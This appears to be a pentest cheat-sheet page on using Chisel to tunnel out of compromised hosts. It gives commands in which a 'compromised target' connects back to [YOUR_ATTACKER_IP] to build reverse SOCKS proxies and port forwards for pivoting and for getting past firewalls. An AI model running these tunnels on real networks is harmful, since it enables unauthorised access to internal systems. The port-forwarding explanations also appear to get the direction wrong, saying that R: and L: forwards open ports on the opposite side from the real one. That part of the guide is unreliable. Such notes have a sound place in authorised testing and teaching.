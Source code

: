 # Chisel

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured with SSH. It's a powerful and versatile tool for creating reverse shells, setting up SOCKS proxies for pivoting, and forwarding ports in a highly flexible manner. Chisel is often preferred over standard SSH for its performance, ease of use in certain scenarios, and ability to bypass restrictive firewall rules that might block SSH directly.

{% hint style="info" %}
## Download & Install:

Download the appropriate static binary from the Chisel GitHub releases page for your attacker machine and the target architecture. Transfer the client binary to the target machine.

[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)
{% endhint %}

## Basic Concepts

* Server Mode: Chisel listens for incoming connections.
* Client Mode: Chisel connects to a Chisel server.

## Common Use Cases

### Setting up a SOCKS5 Proxy for Pivoting

This TCP/UDP tunnel over HTTP is secured via SSH. It employs the client-server architecture for its operation. This technique can be used to bypass firewalls and access resources that are not directly accessible from your local machine.

1.  On your attacker machine (server):

    ```bash
    chisel server --reverse --port 8000
    ```

    This starts a Chisel server on port 8000, allowing a client to connect back and create a reverse tunnel. The `--reverse` flag enables reverse SOCKS proxy support.
2.  On the compromised target (client):

    ```bash
    chisel client [YOUR_ATTACKER_IP]:8000 R:socks
    ```

    The target connects to your attacker machine. `R:socks` tells the client to create a _reverse_ SOCKS proxy. When this connects, a SOCKS5 proxy will be available on your attacker machine's `localhost:1080` (by default, or a random high port if 1080 is in use, check chisel's output).

You can then configure `proxychains` or your browser to use `localhost:1080` as a SOCKS5 proxy to pivot through the compromised machine.

### Reverse Port Forwarding

(Exposing a local service to the target)

1.  On your attacker machine (server):

    ```bash
    chisel server --port 8000
    ```
2.  On the compromised target (client): Suppose you have a local HTTP server on your machine on port 8080 that you want the target to access.

    ```bash
    chisel client [YOUR_ATTACKER_IP]:8000 R:80:localhost:8080
    ```

    This tells the target to open port `80` on its localhost, and any traffic to that port will be forwarded to your attacker machine's `localhost:8080`.

### Local Port Forwarding

(Accessing a target service from your machine)

1.  On your attacker machine (server):

    ```bash
    chisel server --port 8000
    ```
2.  On the compromised target (client): Suppose the target has an internal web server at `192.168.1.50:80`.

    ```bash
    chisel client [YOUR_ATTACKER_IP]:8000 L:8080:192.168.1.50:80
    ```

    This creates a local forward on your attacker machine (where the `chisel server` is running) such that `localhost:8080` will connect to `192.168.1.50:80` through the tunnel.
